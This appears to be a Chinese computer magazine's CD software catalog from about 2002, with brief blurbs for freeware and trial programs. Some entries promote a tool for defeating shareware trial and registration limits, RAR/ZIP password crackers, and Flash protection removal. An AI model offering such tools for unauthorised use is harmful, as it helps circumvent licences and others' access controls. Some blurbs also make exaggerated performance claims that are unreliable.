- 英中翻译译文可读性达85%左右。中英翻译译文可读性达75%左右。英中翻译速度达100万单词每小时。中英翻译速度达20万单词每小时。

软件名称: 金山快译2002

软件简介: 金山快译2002提供中日英三国语言支持， 翻译质量取得整体突破， 支持 Windows XP 和 Office XP， 采用嵌入式设计， 不必启动即可翻译。光盘中提供的金山快译2002的功能与正式版完全相同， 由于光盘容量的原因， 只保留了中译英和英译中的词库。

软件名称: 金山词霸2002

软件简介: 金山词霸2002采用全新嵌入式设计， 内置《美国传统辞典》英汉双解版， 辞典总数达数十本。它支持最新的 Windows XP 和 Office XP， 可以嵌入到IE、Word、Outlook、Acrobat等常用应用软件中， 不用启动词霸即可翻译。本光盘中提供的金山词霸2002为金山公司给《电脑爱好者合订本》读者精心定制的专用版， 绝非测试版。

软件名称: 中软译星2002个人用户版

中软译星产品的专家级顾问服务将充分利用其无可匹敌的技术优势、深刻独到的行业眼光以及与译星核心开发小组的零距离接触优势，实现对客户的核心技术服务，帮助客户实现最大利润。

### 中软译星个人用户版

- 英中、中英双向全文翻译，双向词典，鼠标取词翻译，鼠标取句翻译，可翻译Word文档、Excel表格、PowerPoint文稿、PDF文件和IE浏览器下的网页；
- 英中翻译译文可读性达85%左右。中英翻译译文可读性达75%左右。英中翻译速度达100万单词每小时。中英翻译速度达20万单词每小时。

软件简介:译星2002个人用户版可以运行于所有Windows操作系统环境下，它包含英汉和汉英两个方向的翻译功能，具有屏幕取词、取句、汉化屏幕、嵌入翻译、全文翻译、双向词典等多种功能，翻译质量优于很多知名的翻译软件。

### ■ 软件名称:金山影霸DVD全影视版

软件简介:金山影霸DVD是金山影霸2003的前身。本光盘中提供的金山影霸DVD全影视版可以播放包括DVD、VCD、MPEG、AVI、RM、HDTV、ASF等“所有影视”媒体格式。

### ■ 软件名称:金山网镖

软件简介:金山网镖的智能防黑技术能够从网络连接端口开始过滤，并截获已知黑客及木马程序，保障计算机安全，防止个人信息被盗。其定制网络程序访问权限可以辨识并监控常见网络应用程序的连接状态，即使是黑客的远程攻击也很难突破您的防线。

### ■ 软件名称:HotDoor系统魔鬼

软件简介:为了防止系统崩溃，专家提倡用户安装多系统，且每个系统都应有各自独立的软件环境。HotDoor可以让您在2分钟内同时拥有9个Windows，新建每个Windows只占不到10MB硬盘空间，完全取代重新安装或Ghost克隆。本光盘中提供的HotDoor不限制任何功能，但仅能制作3个系统，不过对大多数用户来说已经足够了。该软件目前仅能支持Windows 98/Me，支持Windows 2000/XP的版本正在开发当中。这个软件的设计理念要优于Norton的Ghost镜像恢复工具，因此强烈推荐读者使用。

### ■ 软件名称:PhotoFamily——全能影像小管家

软件简介:PhotoFamily是一款最流行、最好用的电子相册和照片管理软件。它具有独特的相册管理模式、相册翻页特效、相册背景音乐、相册打包和刻录等功能，可以简单、快速地使用照片编辑功能制作贴纸、日历、卡片、信纸等。

### ■ 软件名称:金山毒霸2003 60天可升级版

软件简介:金山毒霸2003是金山公司开发的第四代防病毒软件产品，该产品本着“防毒于未然，杀毒更有效”的产品理念，推出了面向互联网浏览网页、电子邮件、聊天工具、下载及办公应用等6道病毒防火墙，拒病毒于网络之外。同时还在“双引擎查杀病毒”的基础上增加了“闪电杀毒”等功能，大幅提高了病毒查杀的效率。光盘中提供的版本可以连续使用60天，并可实现在线升级。提醒读者注意，60天后仍可使用，但无法升级。

### 全免费软吧

### 一、系统程序

光盘路径:\Software\System\...

软件名称: Windows优化大师 V5.0 (\wom.exe)

软件简介: 从桌面到网络，从注册表清理到垃圾文件扫描，从黑客搜索到系统检测，Windows优化大师可以给您一个比较全面的解决方案。

软件名称: 冬威系统信息测试 V1.0 (\DWSysinfo100.exe)

软件简介: 冬威系统信息测试工具可用来测试计算机硬件及软件信息，使用简单、易学易用，读取系统信息快且准确。

软件名称: Regmon V4.35 汉化版 (\HA-regmon435-FS.rar)

软件简介: Regmon (Registry Monitor) 是一个出色的注册表数据库监视软件，它将与注册表数据库相关的一切操作（如读取、修改、出错信息等）全部记录下来以供用户参考，并允许用户对记录的信息进行保存、过滤、查找等处理，这就为用户对系统的维护提供了极大的便利。

软件名称: PowerToys V1.1 (\PowerToySetup.exe)

软件简介: 这是微软公司推出的一款专为Windows XP设计的增强工具，增加了许多实用而有趣的功能。

软件名称: DirectX随意卸 V1.86 (\udx186.zip)

软件简介: “DirectX随意卸”是一个小巧好用的DirectX卸载工具，支持所有的DirectX版本（包括将来更高版本的DirectX），体积超小，卸载速度快。无需安装直接运行，是个绿色软件。

软件名称:精选注册表 2002 (\easyreg2002.exe)

软件简介:《精选注册表》是一个注册表优化工具软件，优化选项非常新颖，功能强大，使用简单，而且不必安装，解压缩后可以直接使用。

软件名称:FreeRAM V3.0 汉化版(\Freeram30_cn_zcn.zip)

软件简介: FreeRAM是一个小巧的内存释放程序，它最主要的功能是强迫 Windows 系统释放出目前并没有被占用的内存，你最直接可以受益的便是不会再常常能见到屏幕突然转成蓝色的当机警告画面，以及在浏览那些图片丰富的网页时，速度不会再变慢。

软件名称: SoftCooler V2.01 汉化版 (\HA-SoftCooler-WH.zip)

软件简介: SoftCooler是一款芯片降温软件。你只需将其拖拽到启动组内，并且无须任何设置，它便能是你CPU的温度下降8度以上。它只占用极少的系统资源和内存空间，解压后就可以直接使用。

软件名称: DirectX删除专家XP V2.02 (\DELDX2.02.zip)

软件简介: 本软件采用卸载DirectX系统文件的手段，将DirectX从系统中连根拔起，做到像从未安装过DirectX一样，完全不在系统中留下任何痕迹。

软件名称: 卧天同步王 V1.80(\syncopy_v180.zip)

软件简介: 卧天同步王是一款让本机、局域网、FTP、HTTP服务器不同目录的文件间实现同步备份的工具。是一款全免费的全中文绿色软件。可以只拷贝不同的文件到目标目录上，大大节省时间、减少占用网络带宽，特别适用于频繁更新拷贝的场合。

软件名称: 同步专家单机版 V1.62(\SyncExpert162.zip)

软件简介: 同步专家单机版是目录同步工具，适用于单机目录同步的情况，可以进行数据备份和制作镜像目录。

软件名称: 静洁光驱助手 V1.0(\jjcdrom.zip)

软件简介: 是一款光驱软开关工具，起到避免光驱由于用手按而造成的物理损坏的作用。

软件名称: Sunny FreeWizard 3.0正式版(\freewiz3.zip)

软件简介: Sunny FreeWizard可以解除共享软件的多种限制，包括使用次数限制（新增、独创）、使用天数限制、使用日期限制、启动时提醒注册限制。新版本更可以应付中途或退出时检测日期的软件。

### 二、网络软件

光盘路径:\Software\Net\...

软件名称: 网际畅游 (MyIE) V3.3 修改版 (\myie33.exe)

软件简介:网际畅游是以IE为核心的多窗口浏览器，可同时打开多个子窗口，同时浏览不同的网页，个数不限，且极省资源。另外，该软件还具有皮肤功能，美观大方。

### 软件名称:绿幽灵高速 Web 浏览器 V1.25 (GreenPhantom125.zip)

软件简介:GreenPhantom是一款高速、多线程浏览器，它采用单窗口多页面方式浏览网页，打开的页面数没有限制。在 Windows NT 和 Windows Me 中，绿幽灵的浏览速度会更快。

### 软件名称:上网快手 v1.17 (\QExplorer117.exe)

软件简介:上网快手1.17版是基于IE内核开发的多页面浏览器，可以同时打开多个网页，相互独立，可以自由切换，并预设了上千个实用网址（书签），省却您频繁搜索。

### 软件名称:飓风浏览器 (Internet Wander) V3.50 (\iwander3.exe)

软件简介:飓风浏览器是一款性能卓越的多窗口浏览器，其无限制浏览窗口，方便的窗口切换功能，将节约60~80%的系统资源。另外，该软件还内置了快速的邮件发送系统，包括即时更新提醒、多线程信息检索等方便功能。

### 软件名称:离线浏览助理 (Webdup) V0.93 (\Webdup093Beta.zip)

软件简介:Webdup可按照用户的设置下载网页及相关链接，甚至下载整个网站。它还具有备份历次下载记录和对下载信息进行分类管理的功能。

### 软件名称:Avant Browser 7.0 (\absetup.exe)

软件简介:Avant Browser是一款多窗口浏览器，非常容易上手。

### 软件名称:Proxomitron V4.2 汉化版 (\HA-Proxomitron.zip)

软件简介:Proxomitron是一款浏览过滤器，可以过滤POP-UP窗口、Alert窗口、广告、动画GIF、背景音乐、声音、动态HTML等，还可以替换成自己的内容。

### 软件名称:邮件专家 (Mail Expert) V2.01 中文版 (\mailexpert201c.exe)

软件简介:邮件专家是一个功能强大的免费电子邮件客户端软件。它以自己独特的“断点续收”功能，在强手如林的 Email Client 类软件中拥有一席之地。该软件支持多帐户、ESMTP、信件收发转发回复、邮件附件、个人签名档、128位信件加密、信件导入导出、个性化的参数配置、集成的Ping和FTP工具等全部功能。

### 软件名称:广告阻击手 (Adnicker) V3.01 (\setup_ank301.exe)

软件简介:这已经是广告阻击手的第3个版本了。新版本除了能拦截弹出广告，保护重要的要网站弹出消息外，还能监控电脑是否被木马控制功能，让你上网更加安心。同时，新的伪装广告分析算法更加优秀，在最短时间内找到伪装广告。强烈建议你在 Win2000 或 XP 下运行该程序，以达到最佳效果。

### 软件名称:清雅阁广告杀手2002版 (\gkiller.rar)

软件简介:清雅阁是一个广告杀手软件，解压后直接运行 cn086.exe 程序就行了，运行后会自动缩放到屏幕右下角的任务栏里的！

### 软件名称:我爱我家拨号计费 V1.25 (\Family125.exe)

软件简介:这是一个功能强大而友好的拨号上网计费类软件。你可以方便地查看各种计费的动态数据，比如上线时间、费用、网络速度，方便地设置打折费率。支持最新的电信资费标准。

### 软件名称:中华神差 (DASOMail) V1.51 (\dasomail.zip)

软件简介:中华神差是一款全中文E-Mail软件，支持多帐号、多线程收信，速度飞快。它还支持邮件全文检索、邮件自动归类功能，并提供了繁简转换与预览等。

### 软件名称:便携传真机 V1.58 (\easyfax158.zip)

软件简介:本软件属于传真软件，你只要有一台支持传真传输的Modem就可以利用这个软件发送传真。

### 软件名称:FileZilla V2.1.2 汉化版 (\HA-filezilla.zip)

软件简介:FileZilla是一个免费的FTP客户端软件。

新的版本中，作者改进了手动下载的界面和功能，不过该软件暂时还不支持断点续传功能。

- 软件名称：Stream Download Project (SDP) V1.7.7 汉化版 (\\Sdp177cn.exe)
软件简介：目前许多视讯串流媒体均采用mms://开头的下载网址，让使用者只能线上观赏，而无法将档案下载回来。SDP让你突破该限制，直接将影片收录到你的硬盘中。1.7.7版支持ASF、ASX、WMV格式。

- 软件名称：Streambox Vcr 1.0 Suite (\\Streambox.zip)
软件简介：这个软件可以把 ASF、RM、WMA、RA等流文件下载到本地再播放，再也不用因为网络速度慢而影响观看了。

- 软件名称：NetPeeker V2.0 (\\NetPeeker.exe)
软件简介：虽然目前有很多个人防火墙可供选择，但仍不能消除用户的担忧，尤其是当网络速度变慢时，用户总会想：“会不会有什么程序在后面偷偷干什么事？”。使用NetPeeker，你可以很直观地看到目前有哪些进程在对外访问？访问速度是多少？以及总的速度。

- 软件名称：ADSL超频奇兵 V1.22 (\\adslx2.zip)
软件简介：ADSL超频奇兵是一款ADSL加速软件。它能修改系统注册表中原来专为低速接入而设置的TCP/IP默认参数，以适应PPPoE方式的ADSL接入，可以提高一倍左右的下载速度，并解决了ADSL浏览网页速度变慢的问题。另外，新版本全面支持Windows XP。

- 软件名称：东方自由主机 (Easyhost) V1.0 (\\easyhost.zip)
软件简介：东方自由主机是一款全免费的联网PC客户端WEB服务器，可以将您的普通办公或家庭电脑变成一台可以向全世界提供WWW网站服务的真实主机。您可以随时自由地向外界发布您的公司、个人主页。该软件提供海量数据下载，您的硬盘有多大就能拥有多大的WEB主机空间。特别适合于不定期、即时性网站使用。

- 软件名称：搜易网页制作王 (HtmlEditor) V1.1 (\\htmleditor.zip)
软件简介：搜易网页制作王是一款全免费的网页设计、制作软件，具有和微软FrontPage一样的所见即所得功能，支持拖放式网页设计制作，并且使用内置的迷你浏览器预览网页设计结果，更可方便地进行网页打印，完全满足一般企事业单位网站设计、制作的要求。

- 软件名称：自由网站专家 XP V1.2 (\\fwb_xp.exe)
软件简介：在Internet上建立一个网站需要有专用的服务器，固定的IP地址和专线，运行、维护费用高昂。这时，自由网站专家 XP应运而生。您可以用自己的电脑架设网站，无需固定IP地址、无需申请域名，在任何直接接入互联网的计算机上即可建立网站。另外，它还支持ASP、PHP、数据库，给用户提供了极大方便。

- 软件名称：红蜻蜓IP分配查询 V1.01 (\\iptools101.exe)
软件简介：红蜻蜓IP地址分配查询工具用于查询IP地址分配情况，地址分配数据为目前最新版本，包含了近30000条IP地址段分配记录。它可以随意浏览记录，提供上下翻页，指定页号跳转，可随时设置每页显示的记录数；能够导出IP地址分配记录到CSV文件；能够获取上网机器IP地址及所在地址位置；提供指定IP地址查询功能。

### 三、应用工具

光盘路径：\\SoftWare\\Tools\\...

- 软件名称：WinRAR V3.00 简体中文版 (\\wrar300sc.exe)
软件简介：WinRAR是最好用的压缩工具！支持CAB、ARJ、LZH、TAR、GZ、ACE、UUE、BZ2、JAR、ISO等多种类型的压缩文件，且压缩率相当高。

- 软件名称：ReadSonic V0.32 Express (\\rs032exp.exe)
软件简介：ReadSonic是一个可以不依赖IE内核阅读超文本的软件，速度远快于IE，也支持其它常见的文本格式，最适合阅读从网上抓来的超文本格式的小说和技术文章。

- 软件名称：百博阅读软件 V2.30 (\\bbrsetup231030.exe)
软件简介：百博阅读软件是一款理想的电子阅读软件。它包括书架管理、图书分类、图书查找、全文检索、书签、笔记、双页显示以及快速下载等功能，还可导入、管理和阅读其它格式的电子文档，如TXT、HTML、DOC和PDF。

- 软件名称：WinHex 9.73 (\\winhex973.zip)
软件简介：WinHex是一个很不错的16进制文件编辑与磁盘编辑软件。它可以编辑、修改Hex或ASCII文件，支持多文件替换及一般运算及逻辑运算功能。另外，WinHex的磁盘磁区编辑功能 (支持FAT16、FAT32和NTFS) 还可自动搜寻编辑，进行文件比对、分析，并新增了RAM编辑功能！

- 软件名称：FileName Manager 1.0 (\\fnm.exe)
软件简介：本软件是一个文件名管理小工具，支持大小写转换，文件名批量改名，删除文件名中的空格等，还支持自定义条件。该软件还是一个绿色中文软件，无须安装即可使用。

- 软件名称：中文语音朗读软件 (Read2U) V2.1 (\\r2uv21.zip)
软件简介：Read2U 是一个中文语音朗读软件，可以将文本转换为语音。Read2U 的界面友好、操作简单、音质优良、语速适当，能辨别多音字，支持多种文件格式朗读，支持BIG5码文档，支持多种格式的背景音乐播放，支持脚本播放功能，并且开放了所有的有关朗读参数。

- 软件名称：米字形音码左手中文输入法 3.5 (\\mzxy.exe)
软件简介：米字形音码左手中文输入法倡导左右手分工，创建电脑操作新规范。熟练使用此输入法，左手可独立录入国标一二级汉字、大量词组及常用标点符号；右手可执握鼠标、翻看单据、盲打数字、接听电话，处理其他必要的事务。此输入法采用传统的、规范的汉字偏旁部首笔画以及读音作为编码元素，浅显易懂。

- 软件名称：Setup Generator Pro (\\setupgen.exe)
软件简介：Setup Generator 是一款制作安装程序的软件，您可以创建自己的压缩文件，背景和标题参数，显示许可权和 Readme 文件。甚至还可以制作卸载程序、注册文件和INI文件，并创建菜单组和图标。

- 软件名称：文件切割机 3.0 (\\cutterV3.0.zip)
软件简介：文件切割机可以将多个文件或目录进行压缩，然后切割成你需要的份数，以便于保存在软盘中或分批在邮件中发送。提供多种切割方式、自动解压还原、自动清理文件等功能。

- 软件名称：奥博文件分割机 V1.0 (\\fdivider.rar)
软件简介：本软件可以将一个文件拆分成多个小文件，并可以将多个文件合并成一个大文件。软件对要拆分的文件大小最大可以达到2GB字节。拆分后，会自动生成一个合并文件的批处理文件，可以不依靠本工具，运行此文件将拆分后的文件合并。另外，本工具还可以将其它的多个文件合并成一个文件，不管你这些文件是不是它自己拆分的。如果你愿意，也可以将你Windows目录下的所有文件合并成一个文件。

- 软件名称：DocDrag 1.06 正式版 (\\DocDrag1.06.exe)
软件简介：DocDrag不仅可以方便地从网页上收集你所需的信息，还提供了强大的文档管理、编辑、再加工等功能。DocDrag提供了在IE右键菜单里添加菜单项的功能，帮助你保存你喜欢的文字、图片或者整个页面。DocDrag还提供极为强大的文档管理功能，你可以通过鼠标的拖拽调整分类，管理文档。如果你熟悉HTML，你还可以使用语法着色的HTML编辑器来编辑文档。

- 软件名称：百里挑一 V1.22 (\\blty.zip)
软件简介：百里挑一可以从成百上千的压缩文档中将有用的迅速查找出来。你只需提供一个要查找的文件名 (目录名)，当然，你可以使用通配符，然后点击“搜索”按钮，“百里挑一”就会立即从你选定的目录下搜索出所有包含这个文件 (目录) 的压缩文档。

- 软件名称：金山模拟光驱 1.0 (\\KVDShare.exe)
软件简介：金山模拟光驱是游侠的强大功能之一，其高速读盘可达200倍速，避免因为光驱纠错能力差异而造成光盘软件运行时的停顿现象。

- 软件名称：Daemon Tools 3.26 (\\daemon326.exe)
软件简介：Daemon 是一款非常棒的虚拟光驱软件，安装后不需要重新启动即可使用，支持PS、加密光盘，可以把 CUE、ISO、CCD、BWT 等镜像文件 Mount 成光盘直接使用。

- 软件名称: 快狗伴侣 2.0 电脑爱好者合订本 OEM 版 (\\kgbl.exe)
软件简介: 快狗伴侣是一个可人的宠物小狗，不仅可以使你更方便地登陆快狗，还集成了许多实用的功能，闲暇之时也可以让你会心一笑。

- 软件名称: DeskOffice 电脑爱好者合订本 OEM 版 (\\deskoffice.exe)
软件简介: DeskOffice是一个类似Office的办公软件。本OEM版支持最多 20 个用户，可完成中小型政府机关、企事业单位的大多数日常办公工作流程，并提供了电子公文的演示页面。用户如需支持更多用户或希望使用电子公文流转、电子分拣等更多的功能，请与开发者联系购买 DeskOffice 专业版。

### 四、图像处理

光盘路径: \\Software\\Picture\\...

- 软件名称: SlowView V1.0 (\\sv10rc1b.exe)
软件简介: SlowView 是一个很好的看图软件，文件小、免费、功能齐全。另外，它还拥有 ACDSee 般的便利浏览模式，并支持全屏幕、幻灯片、设成桌布、简易的特效、改变大小、甚至批次转文件等功能。

- 软件名称: 我为图狂 (David Image Viewer) V1.5 完美版 (\\DavidImageViewer1.5Setup.exe)
软件简介: David Image Viewer是一个功能简单实用，界面轻快、凉爽的图形浏览软件，兼备图标提取以及设置墙纸、图形转换的功能，还具有图形化的按钮和众多的皮肤。

- 软件名称: Pic2Pic (\\pic2pic.zip)
软件简介: Pic2Pic 是一个能够将大批图形文件进行旋转、色彩调整的工具，还可以转换文件格式。

- 软件名称: CompressIt 1.2 (\\comprsit.zip)
软件简介: CompressIt使用先进的压缩技术，可以使你在不破坏图形文件品质的同时拥有最小容量。除此之外，你还可以查看BMP、GIF、JPEG、JPG、PCX、PNG、TIF、TIFF、TGA、PGM、PPM、PBM、ICO、WMF 和 EMF等文件，又可转换成为 BMP、JPG、PBM、PGM、PNG、PPM、TGA、TIF格式。

- 软件名称: JPG 超强浏览压缩工具 3.1 (\\jpegview3_1.zip)
软件简介: 该工具可以使一般的JPG图像压缩50%后无明显失真，也可作为 JPG、GIF、BMP 的浏览和管理软件，放大效果超过 ACDSee; 并可将 JPG、GIF、BMP 图像相互转换。

- 软件名称: 红蜻蜓抓图精灵 2002 (\\RdfSnap111_1112_Setup.exe)
软件简介: “红蜻蜓抓图精灵 2002”是一款全免费的专业级屏幕捕捉软件，能够让您得心应手地捕捉到需要的屏幕截图。它具有多种抓图模式供选择，可以捕捉鼠标指针，进行延时捕捉，并可以对抓图延迟时间进行设置。抓图方法非常简单，按下抓图热键 CTRL + SHIFT + C 即可。并且，本软件具有简单的图像编辑能力，可以对捕捉到的屏幕图片进行裁切、反色、翻转及设置图像大小等处理。同时，该软件采用了当今流行的换肤技术，用户可以根据自己的喜好选择相应的软件外观，尽显您的个性，绝对够酷！

- 软件名称: Ultimate FX (\\ufx.zip)
软件简介: Ultimate FX这套功能强大的影像特效处理软件，不但内置了超过 100 种的特效功能，更与 Photoshop 的滤镜完全相容，可以让您在影像的创意中无限延伸。

- 软件名称: 金锋图像处理系统 V2.1 标准版 (\\jfimage1.zip)
软件简介: 金锋图像处理系统集强大的绘图功能、大量图像特效、屏幕截图、贺卡制作、HTML输出于一身，可以将不同外观 (非或笔、与非笔、复制笔等16种外观) 应用于绘图工具上进行绘图，同样可以将这些外观应用于近百种图像特效中，从而调制出上千种图像特效。该软件还能对图像的每一步操作进行记录，可以撤消到任何一步操作，并可将操作记录播放出来，以演示图像绘制或处理过程。另外，金锋图像处理系统还可以在 BMP、GIF、JPG、WMF、EMF、RLE等文件中加入背景音乐、贺词，生成音乐贺卡。

- 软件名称: Pixia V2.5n 中文版 (\\pix25kc.exe) Photoshop插件 (\\pxaplgin.exe)
软件简介:Pixia是一个免费而且功能丰富的绘图软件，非常适合绝大部分的使用者。您千万不要以为Pixia是一个免费软件就认为它太烂，它拥有各种基本的绘图工具、选取工具、调色盘等，完全可以算作是PhotoShop的简版，而且其进阶功能还支持无限数量的图层、最大尺寸10240 × 10240点、各式滤镜、100层复原等。在硬件方面，Pixia支持Twain32装置，可以直接扫描图片，支持数字绘图版，并可挂接Photoshop滤镜。

- 软件名称: ActivIcons 3.16 (\\actic316.zip)
软件简介:ActivIcons是一款ICON图标的更换工具。该软件可以更换桌面、开始菜单、硬盘、资料夹中的图标，也可以从EXE、DLL文件中抓取ICON。此外，该软件还能设置桌面图标、文字颜色，变更开关机画面！

- 软件名称:FlashToolset 1.1 (\\setupflashtoolset11.exe)
软件简介:Flashtoolset是最好的第三方Flash免费工具集，提供从浏览、检查、资源提取、操控、查找到发布的全部功能。Flashtoolset功能包括:全面支持Macromedia Flash MX;支持播放SWF、FLA、AS、SWT、EXE、SPL格式Flash动画，并能读取文件的Flash版本及其属性;在文件浏览过程中提供动画预览;从动画中提取图像、音乐、影片片断等资源;根据需要制作光盘自动运行文件;把动画转化成可以独立运行的Projector文件以便散发;直接生成嵌入动画的HTML文件;去除动画的保护属性;不打开Fla即可编辑Swf文件中的内嵌文本域;提供Actionscript编辑器;压缩Flash6 Swf文件;从Projector中提取swf文件等。

- 软件名称:Flash 影片提取工具 1.0 (\\Exe2Swf.zip)
软件简介:“Flash影片提取工具”可以将Macromedia Flash 5制作的EXE文件中的SWF影片提取出来。

- 软件名称:Flash2X Flash Hunter (\\flash2x.exe)
软件简介:你想把在网上看到的Flash动画抓下来，并保存到硬盘上欣赏吗？这个工具就可以轻松地帮你完成这一切。它还可以扫描浏览过的Flash动画，保证不会有遗漏。

- 软件名称:PhotoModeler Lite 3.1a (\\pmlt31a.exe)
软件简介:PhotoModeler Lite是一个可以将平面照片转换成立体模型的工具，只要利用照片里物体的点、线、面，即可建立出立体的3D模型，可以应用于绘图、动画、网页、VRML等各个方面。

### 五、媒体相关

光盘路径:\\Software\\Medium\\...

- 软件名称: n . Player V0.7.0 汉化版 (\\ha_nplayer0700_xepin.exe)
软件简介:媒体播放的新星n.Player提供了对几乎所有格式文件的支持，其中包括DVD、CD、MP3、WMA、AVI、DivX等。而且，它也具备换肤功能，可以时常保持一种清新感觉。

- 软件名称:Winamp3 V3.0 汉化版 (\\Winamp30.exe)
软件简介:Winamp 是一款非常著名的音乐播放软件，支持MP3、MP2、MOD、S3M、MTM、ULT、XM、IT、669、CD-Audio、Line-In、WAV、VOC等多种音频格式，可以定制界面Skins，支持增强音频视觉和音频效果的Plug-ins。

- 软件名称:XMPEG V4.5 多国语言版 (\\xmpeq4.5.exe)
软件简介:XMPEG是FlaskMPEG的修改版，是一个非常好用的视频制作工具。与VirtualDub相比，XMPEG除了支持 MPEG2格式外，稳定性也更高一些，在编码中的处理功能还是很强大的。因为和VirtualDub重复的功能不多，所以两者可以说是相得益彰。安装该软件后，其Lang目录下的Chinese.lang.Xmpeg为中文语言包，只要把其它语言文件删除即可显示中文。

- 软件名称:中文录音编辑处理器 (WaveCN) V1.5 (\\wavecn15.exe)
软件简介:WaveCN 是一个免费的录音编辑处理软件，支持多种音频文件格式，十多种音频处理效果，主要面向非专业用户。

- 软件名称:歌词秀 (LyricsShow! For Winamp) V1.2 简体中文版 (\\gsls12.exe)
软件简介:LyricsShow! For Winamp在使用Winamp播放 CD、MP3、WMA、MIDI 等歌曲时，能看着同步歌词方便地卡拉OK。与其前身LyricsMate不同，LyricsShow是一整套歌词工具，包含Winamp传统风格歌词显示模块、AVS内嵌歌词显示模块、人声即时处理模块、歌词编辑器以及数个实用小工具。

软件名称: RealTime Converter V1.1(\\r7c.zip)
软件简介: RealTime Converter是一款可以将Real格式转换成AVI、WAV、MP3格式的工具。

软件名称: 山丽个人防火墙 - 网络堡垒 V1.0 (\\sanlen_fortress_v10.zip)
软件简介: 山丽网络堡垒是一款个人防火墙软件，可自动防范未知的木马、黑客程序，也可自定义灵活的安全规则以实施访问控制，可对应用程序和网站进行网络访问权限控制、信息过滤等，可观察TCP/UDP/NETBIOS/ICMP/IGMP等各种网络数据包的细节。它还能直观地看到正在访问网络的程序和数据流量，实测26种木马，使其均不能连接被测试的主机，是您必不可少的好帮手。此软件需要Windows Installer支持，如果您系统内无此软件，请解开“超软黄金屋”中“译星”翻译软件的安装压缩包，并在其中查找。

软件名称: VirtualDub V1.4.12 汉化版 (\\HB-VirtualDub1412-fxj.exe)
软件简介: 虽然VirtualDub是一套免费的多媒体剪辑软件，但它的功能一点也不输给Premiere以及Media Studio等专业级产品。VirtualDub的功能可以区分为两大部分，一是让您编辑现有的电影短片文件（如AVI以及MPG等），另一项则是可以搭配您的影像补捉卡做即时动态影像捕捉。

### 六、安全防护

光盘路径: \\Software\\Safe\\...

软件名称: EasyCode Pro V4.0(\\ec3495i.exe)
软件简介: 能加密任何文件的好东东，使用32位保护模式，能在软盘上直接加密，速度很快。它还提供了自侦测文件长度的安全功能，能加密所有类型的文件，是加密工具的理想选择。

软件名称: 亢天防黑墙 V3.0(\\ktsetup.rar)
软件简介: 亢天防黑墙根据最新的国际网络安全标准开发。采用分布式的监控全面对端口进行实时管理和察看。并且有强大的安全系数评估系统！功能强大，是新一代防黑墙产口的典范！推荐与天网防火墙同时使用，将使您的计算机稳如泰山！此软件在安装前需要拷贝 VB 运行库中的所有文件至 Windows\\System文件夹中（软件内部已经带有VB运行库，里面有10个文件。其中9个是隐藏文件，一定要注意哦。文件内含WinXP外挂插件，去除了一些有恶意倾向的攻击软件。

软件名称: Kerio Personal Firewall V3.0(\\kerio30.exe)
软件简介: 一个绝对免费的专业防火墙，Kerio采用了专业的防黑技术，可以确保你的计算机不被任何黑客侵扰。

软件名称: 唐朝卫士 V4.00(\\cc.rar)
软件简介: 唐朝卫士是一个维护您系统安全的软件，它的前身是唐朝工作室出品的“电脑警察保卫系统”。该软件有CMOS密码恢复、解开MBD文件的密码锁、锁住电脑、发匿名邮件、群发邮件、检测木马、防火墙等功能。

软件名称: 隐天 Internet 设置工具 (\\ieprosetupv.exe)
软件简介: 隐天Internet设置工具是一个非常容易使用的IE修改工具，几乎可以修改IE的所有限制，而且非常容易上手，推荐所有初学者使用。

软件名称: Outpost Firewall Free V1.0 (\\OutpostInstall.exe)
软件简介: Agnitum Outpost Firewall是一款短小精悍的网络防火墙软件，它的功能是同类PC软件中最强的，甚至包括了广告过滤、图片过滤、内容过滤、DNS缓存等功能。它能预防来自Cookies、广告、电子邮件病毒、后门、窃密软件、解密高手、广告软件和其它 Internet 危险的威胁。

软件名称: 微晓IE保护大师 V2.01 (\\wxies.zip)
软件简介: 微晓IE保护大师是一款IE安全工具，它可有效防止恶意网站或恶意软件对IE的攻击，可保护开始菜单及自动运行项中的内容不被随意添加、修改或删除等。其主要的保护项目有IE浏览器标题、首页、主菜单、上下文菜单（鼠标右键菜单）、工具栏按钮、Internet选项、搜索引擎及Outlook标题、Windows启动时弹出的提示窗口、注册表编辑器、Windows开始菜单、Windows自动运行项目、日期和时间等数十种，还提供了禁止IE弹出广告窗口。

软件名称：万能加密器 V5.41 正式版(\ecboy541.zip)

软件简介：万能加密器Easycode Boy Plus! 的功能超过了其他所有小型加密软件，具有加密文件大小不限、文件类型不限，采用高速算法，加密速度快，安全性能高，界面美观，有加/解密列表等功能。另外，万能加密器还具有独特的密码查询功能，使您忘记密码不再发愁。

软件名称：文件加密解密系统 V2.2(\r1.zip)

软件简介：文件加密解密系统是一款非常方便实用的加解密软件，可以对任意文件进行加密，只需选中要操作的文件单击右键，在菜单中选择加解密即可。

软件名称：磁盘保镖 V2.5 正式版(\diskguard2.5.exe)

软件简介：磁盘保镖应用VXD（虚拟设备）技术实现驱动器的隐藏、文件夹加隐藏、防写、防删、禁止访问的保护属性，还可以为每个保护文件夹设定解除保护密码。

软件名称：电脑万能加锁专家 V6.1(\jmpc.exe)

软件简介：程序加锁专家是一款使用方便、小巧、实用的软件加锁工具，你可以有选择性的加锁某些程序，被加锁的程序必须输入正确的口令才能使用。本软件体积小，且兼容任何操作系统，最适合于家用、公司及网吧的管理。

软件名称：RAR Password Cracker V4.00 汉化版(\HA-RPC40-HW.exe)

软件简介：RAR Password Cracker 是一个专门用来破解RAR压缩文件密码的程序，通过穷举、密码字典等方法，它可以快速破解被密码保护的文件。新版本具备了状态存储、并行计算、多卷文件支持等新功能。

软件名称：ZIP Password Finder V1.0(\zpf.zip)

软件简介：ZIP Password Finder是恢复ZIP文件密码的工具，界面友好。

七、教学娱乐

光盘路径 Software\TeachGame\...

软件名称：速记步步高（打字版） V1.0(\sjbbg.exe)

软件简介：这是一款练习中文打字的软件，天空中不断有携带字词的小方块往下降落，你只要在输入框中打出小方块上的字、词，小方块就会被打回去，上面的字词也会更新。（安装时请不要改变默认路径）。

软件名称：五笔向导 V1.5(\WBGuide15.zip)

软件简介：五笔向导可以在屏幕最前面显示五笔字型输入法的字根图、编码规则、码元码表、助记口诀等详细的帮助，让您伴随着背景音乐轻松打字。

软件名称：打字高手——文录教学鉴定系统 V6.0(\wwt60.exe)

软件简介：这是一个功能强大的五笔教学软件，功能十分全面。

软件名称：快打一族 2003(\quick2003.exe)

软件简介：本软件是一款打字练习软件。有中文练习、英文练习和数字练习三个主要部分。在中文练习中有一个五笔专区，里面可以练习五笔的一级简码、二级简码、键名字和词组等。除了普通的练习模式外，该软件还有游戏模式，可以让用户放开枯燥的练习方法，在游戏之余练打字。

软件名称：单词高手 V1.6(\word16.zip)

